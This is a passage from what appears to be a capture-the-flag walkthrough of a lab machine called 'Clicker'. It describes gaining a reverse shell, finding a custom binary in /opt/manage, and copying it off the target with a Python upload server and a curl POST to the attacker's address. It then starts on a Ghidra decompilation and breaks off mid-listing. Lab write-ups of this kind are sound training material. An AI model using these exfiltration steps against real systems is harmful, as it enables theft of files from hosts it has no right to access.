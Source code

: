 going to that url gave us a reverse shell

![Reverse shell](/assets/img/Clicker/Clicker_07.png)

## Lateral Movement



So after gaining the reverse shell i started enumerating the system and found a custom binary in **/opt/manage** that we are able to run that is owned by a user called jack. this binary looked interesting so i decided to take the binary from the system.

![Binary in opt](/assets/img/Clicker/Clicker_08.png)

I setup an upload server using python using the upload server module
```
python3 -m uploadserver 80
```
Next use the following curl command to upload the binary

```
curl -X POST http://10.10.14.53/upload -F files=@execute_query
```

After opening the binary in ghidra i was able to get the following source code: 

```c
undefined8 main(int param_1,long param_2)

{
  int iVar1;
  undefined8 uVar2;
  char *pcVar3;
  size_t sVar4;
  size_t sVar5;
  char *__dest;
  long in_FS_OFFSET;
  undefined8 local_98;
  undefined8 local_90;
  undefined4 local_88;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
```